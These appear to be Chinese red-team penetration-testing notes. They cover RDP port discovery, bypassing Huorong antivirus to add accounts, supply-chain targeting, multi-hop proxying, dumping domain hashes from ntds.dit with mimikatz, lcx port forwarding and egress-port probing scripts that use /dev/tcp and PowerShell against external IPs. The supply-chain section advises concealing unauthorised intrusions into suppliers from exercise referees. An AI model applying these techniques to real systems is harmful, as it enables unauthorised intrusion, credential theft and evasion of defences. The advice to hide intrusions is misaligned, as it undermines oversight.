 <a name="1Om89"></a>
# 
<a name="zx8ld"></a>
## 查看更改后的RDP端口
如何查看被改后3389的端口<br />执行命令 tasklist /svc | find "Ter"，本例中查看到 TermService 的 PID 是 1592。<br />执行命令 netstat -ano | find "1592"，查看 TermService 使用的端口，如示例中的 3389。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611400893159-1fd1ed3e-2d52-4f12-b962-8b8970006029.png#align=left&display=inline&height=85&originHeight=162&originWidth=788&status=done&style=none&width=415)
<a name="WSrOd"></a>
## Copy net1添加账户绕火绒
![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611400893413-9f39a1aa-53d6-424a-85c8-134587ac3359.png#align=left&display=inline&height=362&originHeight=852&originWidth=802&status=done&style=none&width=341)
<a name="lfzK6"></a>
## 供应链攻击
供应链攻击分享笔记：1、供应商提供的信息可能适合定位靶标位置和获取靶标权限。2、怎么找供应商？<br />（1）招投标网站查询靶标信息或者目标单位信息，确定系统建设方。<br />（2）靶标或者目标单位，网站最底部，一般有“xxxx公司提供技术支持”。<br />（3）有些官网自带招投标信息。3、一些供应商提供固定行业的系统建设，一套代码多处使用，所以可能存在口令复用问题。4、思路之一：尝试找生产系统的测试系统，测试系统一般是供应商搞的，可能存在数据库数据复用问题。5、搞供应商内网的邮箱(运维\IT\驻场)、论坛、OA是重点，这些敏感信息多。6、忠告：不推荐大家，看一个攻击目标就只想着供应链。供应链只是一种可能存在的攻击途径，主要是辅助我们对目标进行渗透。而且在搞供应链的时候一定要有目的性，寻找网络连通的可能性，而不是乱打一气。毕竟在证明网络可连通之前，是没有授权的，公安没法保你的。7、保护自己：没拿到靶标相关的东西前，先不要和裁判说入侵了xx供应商，注意隐蔽自己，即使在供应商那里没找到有用信息，就当无事发生。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611400893836-e1c373b0-0c49-495b-8cd4-10ccfd635e01.png#align=left&display=inline&height=189&originHeight=592&originWidth=1098&status=done&style=none&width=350)
<a name="ccvja"></a>
## 
<a name="4kwxW"></a>
## Proxifier(代理技巧以及多层代理)
代理整个C段<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611400894424-cc5bb1db-3171-476e-aee0-4dff3a66f3c6.png#align=left&display=inline&height=351&originHeight=523&originWidth=619&status=done&style=none&width=415)

多级代理<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611654971644-158e02e5-1ceb-4130-b5b1-88911c465438.png#align=left&display=inline&height=442&originHeight=589&originWidth=592&size=147443&status=done&style=none&width=444)<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611655001700-67999aae-3bc9-491f-afcb-eb2a72773a54.png#align=left&display=inline&height=287&originHeight=382&originWidth=352&size=173281&status=done&style=none&width=264)<br />[https://mp.weixin.qq.com/s/Wjv6dULS6Wwyg4N8-ZmHng](https://mp.weixin.qq.com/s/Wjv6dULS6Wwyg4N8-ZmHng)

--------------------------------------------------------------------------------<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615629406269-f85bbcc5-a9d7-4243-a6c9-16542bdf66f1.png#align=left&display=inline&height=335&originHeight=446&originWidth=903&size=186269&status=done&style=none&width=677)<br />1中出网，和vps服务器作上代理，这个时候，攻击机器可以访问2<br />2不出网，可以继续建立多层代理。让攻击机访问到3<br />添加如下代理链<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615629438953-d37fab86-ff58-4559-9ceb-6a3fb0b117c6.png#align=left&display=inline&height=454&originHeight=605&originWidth=581&size=99933&status=done&style=none&width=436)<br />这个时候，会多出一个chain就能走上代理了。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615629555289-de6f9eaa-9880-4376-95ac-bcfcfdd6b17e.png#align=left&display=inline&height=236&originHeight=315&originWidth=757&size=16614&status=done&style=none&width=568)

linux的话，需要修改一下proxychain<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615629627077-673b51d4-9cde-4abb-afbb-d065bfe3ab1c.png#align=left&display=inline&height=332&originHeight=443&originWidth=484&size=100868&status=done&style=none&width=363)


<a name="6EHu3"></a>
## 关于EDR

域控就是域管理员，但是域控似乎不存在本地管理员<br /> <br />ntds.dit(域控环境)是为了可以获取域内所有的hash值  ，获取域内所有的hash值就有域内所有用户的登陆hash或者邮箱hash<br />ntds.dit拉到本地，然后本地抓起来，  如果电脑没有深信服edr啥的,mimikatz可以直接本地抓<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611461765647-f9a72f9e-d523-4d7f-9b6f-b82378253661.png#align=left&display=inline&height=319&originHeight=425&originWidth=780&size=109556&status=done&style=none&width=585)

<a name="EnMEs"></a>
## 关于NC的报错
nc -lvp <br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614229953887-cefa8a24-e103-4567-8bd2-6d79d5327a2e.png#align=left&display=inline&height=67&originHeight=89&originWidth=549&size=5278&status=done&style=none&width=412)<br />如果有这个报错，直接加个n就可以<br />nc -lnvp
<a name="xmb3p"></a>
## 关于内网3389
有时候内网没有3389，但是cs上线了，权限也很高，命令行开启了内网3389端口的时候，netstat都看到了3389，就是还是连不上，或者说内网某些网段做了限制策略不允许访问。这个时候可以选择一下端口转发。<br />例如:<br />条件:3389防火墙做了限制无法访问，转到53端口。<br />lcx.exe -tran 53 192.168.222.137 3389

<a name="fcJcK"></a>
## 不出网的情况，使用出网的端口上线CS，或者做代理
**防火墙的出站规则:是指管理员允许电脑能访问外网服务器的什么端口。也可以是电脑哪些端口可以访问外网。**<br />**![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615613315611-4e13b54f-e0bb-4f72-afc1-0b24aa082ada.png#align=left&display=inline&height=342&originHeight=683&originWidth=910&size=62482&status=done&style=none&width=455)**<br />入口webshell的机子不出网，不出网分几种情况<br />1：协议出网，比如:icmp ping不通百度，curl不通http，但是dns可以解析<br />2: 端口出网<br />linux命令下，使用下面命令探测端口出网。
```
for i in {21,22,23,25,53，80,88,110,137,138,139,123,143,389,443,445,161,1521,3306,3389,6379,7001,7002,8000,8001,8080,8090,9000,9090,11211};do timeout 0.5 bash -c "echo >/dev/tcp/101.36.104.49/$i" && echo "$i ************************open************************" || echo "$i closed";done
```
windows命令下
```
powershell -c "21,22,80,137,161,443,445,1900,3306,3389,5353,8080 | %{try {(new-object Net.Sockets.TcpClient).Connect('106.55.62.131',$_);Write-Host "$_ open"} catch {Write-Host "$_ closed"} finally {} }"|findstr /I open
```
这个时候，即使协议不出网，但是tcp通信还在的话，找到出网端口进行socks代理，或者上线CS也是没问题的

<a name="QN4YO"></a>
## 内网渗透快速定位域控
进入内网后，直接快速扫88、389、445端口的特征。serverscan会比较好用。

Microsoft-DS traffic: 445/TCP、445/UDP<br />Kerberos: 88/TCP、 88/UDP<br />LDAP ping: 389/UDP <br />DNS: 53/TCP、53/UDP<br />计算机登录与验证身份时会用到的连接端口<br />计算机登录到域控制器时会用到以下的服务，因此如果域的成员计算机与域控制之间被防火墙隔开，就必须在防火墙开放这些服务的连接端口。<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615620444239-a02bb77a-92ad-48c8-bdaa-b0b3066b4658.png#align=left&display=inline&height=276&originHeight=552&originWidth=798&size=31400&status=done&style=none&width=399)

